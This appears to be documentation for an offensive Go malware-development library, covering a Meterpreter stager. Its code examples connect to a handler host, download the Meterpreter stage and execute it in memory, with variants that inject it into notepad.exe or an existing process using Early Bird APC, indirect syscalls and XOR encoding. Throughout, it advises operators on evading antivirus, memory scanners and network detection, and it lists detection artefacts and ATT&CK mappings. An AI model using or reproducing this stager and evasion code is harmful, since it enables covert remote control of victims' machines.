

# Meterpreter stager

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

You want a Meterpreter session on the target without shipping
the full Meterpreter binary (hundreds of KB, signature-rich).
The classical pattern: a tiny **stager** pulls the second
stage from your MSF `multi/handler` over the network and
executes it in-process.

| You want… | Use | Notes |
|---|---|---|
| Self-inject the stage in current process | `meterpreter.Run` (default — no `Config.Injector`) | Simplest. Stage runs as your implant's process. |
| Inject the stage into a sacrificial child | `Config.Injector = inject.NewWindowsInjector(...)` with Early Bird APC etc. | Survives implant exit. Spoof PPID + args for cover. |
| Linux target | `meterpreter.Run` | ELF wrapper needs the live socket fd; `Config.Injector` is rejected on Linux. |

Transport options: TCP, HTTP, HTTPS, all routed through
[`c2/transport`](transport.md) (so you get TLS pinning, uTLS,
etc. for free).

What this DOES achieve:

- Operator gets a full MSF session — file ops, port forwarding,
  privilege escalation modules, the lot.
- Stager is small enough to fit in a Donut shellcode payload
  or any `inject.*` flow.
- Cross-platform — same Go code stages on Windows / Linux.

What this does NOT achieve:

- **Doesn't hide that you're staging Meterpreter** — once the
  stage is in memory, `MZ` header + ReflectiveLoader byte
  signature flag every memory scanner. Pair with
  [`evasion/sleepmask`](../evasion/sleep-mask.md) so the bytes
  hide between callbacks.
- **No automatic OPSEC for MSF traffic** — the second stage is
  Meterpreter as-is. Defenders running detection on its
  protocol see standard MSF traffic. Use
  [`malleable-profiles`](malleable-profiles.md) to wrap HTTP
  staging only; the post-stage protocol is what MSF speaks.
- **Network requirement** — needs egress to your handler. For
  air-gapped or fully-offline ops, build a custom payload
  with [`pe/srdi`](../pe/pe-to-shellcode.md) instead.

## Primer

Metasploit's Meterpreter is the canonical post-exploitation toolkit.
It is too big to embed (~hundreds of KB), so attacks split it in two:
a **stager** small enough to fit in a shellcode payload or a Go
binary, and a **stage** (the full Meterpreter DLL or ELF) fetched at
runtime over the network. The stager opens a connection to the
handler, reads the stage as raw bytes, copies it into executable
memory, and jumps to the entry point.

Two parts of that flow are worth abstracting. First, the **fetch**
is identical across Meterpreter implementations — connect, read four
length bytes, read the stage, hand the buffer to the executor.
Second, the **execute** is the most variable: a real engagement uses
the inject package's full surface (Early Bird APC, indirect syscalls,
XOR encoding, CPU delay) to defeat host-side telemetry. The package
exposes a clean `Config.Injector` knob so the same stager works
across stealth tiers.

The HTTP / HTTPS variants implement Metasploit's URI-checksum format
expected by the handler (`/<8 random chars>` with a checksum byte).
HTTPS supports `InsecureSkipVerify` for self-signed handlers and a
configurable timeout.

## How it works



## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/c2/meterpreter`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/meterpreter) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
)

cfg := &meterpreter.Config{
    Transport: meterpreter.TCP,
    Host:      "192.168.1.10",
    Port:      "4444",
    Timeout:   30 * time.Second,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

### Composed (HTTPS + InsecureSkipVerify)

```go
cfg := &meterpreter.Config{
    Transport:   meterpreter.HTTPS,
    Host:        "operator.example",
    Port:        "8443",
    Timeout:     30 * time.Second,
    TLSInsecure: true,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

### Advanced (custom injector — Early Bird APC + indirect syscalls + XOR)

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
    "github.com/oioio-space/maldev/inject"
)

inj, _ := inject.Build().
    Method(inject.MethodEarlyBirdAPC).
    ProcessPath(`C:\Windows\System32\notepad.exe`).
    IndirectSyscalls().
    WithFallback().
    Use(inject.WithXORKey(0x41)).
    Use(inject.WithCPUDelayConfig(inject.CPUDelayConfig{MaxIterations: 10_000_000})).
    Create()

cfg := &meterpreter.Config{
    Transport: meterpreter.TCP,
    Host:      "192.168.1.10",
    Port:      "4444",
    Timeout:   30 * time.Second,
    Injector:  inj,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

### Complex (remote inject into existing PID + HTTPS staging)

```go
import "github.com/oioio-space/maldev/inject"

inj, _ := inject.Build().
    Method(inject.MethodCreateRemoteThread).
    TargetPID(1234).
    IndirectSyscalls().
    WithFallback().
    Create()

cfg := &meterpreter.Config{
    Transport:   meterpreter.HTTPS,
    Host:        "operator.example",
    Port:        "8443",
    Timeout:     30 * time.Second,
    TLSInsecure: true,
    Injector:    inj,
}
_ = meterpreter.NewStager(cfg).Stage(context.Background())
```

See `ExampleNewStager` in
[`meterpreter_example_test.go`](../../../c2/meterpreter/meterpreter_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Meterpreter wire format | Snort / Suricata signatures match all three transport types out of the box |
| MSF URI checksum pattern (`/<8 chars>` GET) | NIDS hunt rules |
| Stage in-memory after decrypt | Defender / MDE memory scan — Meterpreter's reflective DLL has known signatures |
| `CreateThread` at a non-image start address | Kernel thread-create callback — defeated by switching to `MethodEarlyBirdAPC` or similar via `Config.Injector` |

**D3FEND counters:**

- [D3-OCA](https://d3fend.mitre.org/technique/d3f:OutboundConnectionAnalysis/)
  — outbound-connection profiling.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/) —
  YARA rules on the unpacked stage.

**Hardening for the operator:** always set `Config.Injector` for
Windows engagements; combine with `c2/transport` uTLS + cert pinning;
use a payload encryptor (Veil, ScareCrow, or `crypto.EncryptAESGCM`
on a custom stage) so the in-memory bytes do not match Meterpreter's
public reflective-DLL signature.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1059](https://attack.mitre.org/techniques/T1059/) | Command and Scripting Interpreter | post-stage Meterpreter shell | D3-PSA |
| [T1055](https://attack.mitre.org/techniques/T1055/) | Process Injection | when `Config.Injector` is set | D3-PSA |
| [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Application Layer Protocol: Web Protocols | HTTP/HTTPS variants | D3-NTA |
| [T1095](https://attack.mitre.org/techniques/T1095/) | Non-Application Layer Protocol | TCP variant | D3-NTA |

## Limitations

- **Linux Injector unsupported.** The ELF wrapper protocol needs the
  live socket fd; `Stage` returns an error if `cfg.Injector != nil`
  on Linux.
- **Public stage signatures.** Defender, CrowdStrike, and SentinelOne
  fingerprint the unmodified Meterpreter reflective DLL. Custom-built
  stages (or `crypto`-wrapped stages your handler decrypts) are
  required against modern AV.
- **Self-injection default is loud.** `VirtualAlloc + CreateThread`
  is the textbook process-injection chain. Always set
  `Config.Injector` against any non-trivial defender.
- **Single connection.** No reconnect logic — if the stage download
  fails, the stager exits. Wrap in a higher-level retry loop or use
  `c2/shell` with a custom protocol if reconnect is needed.

## See also

- [Transport](transport.md) — pluggable wire layer alternative.
- [`inject`](../injection/README.md) — primary `Config.Injector`
  source.
- [Reverse shell](reverse-shell.md) — when full Meterpreter is
  overkill.
- [HD Moore et al., *Metasploit Unleashed: Meterpreter*](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)
  — primer on the protocol.
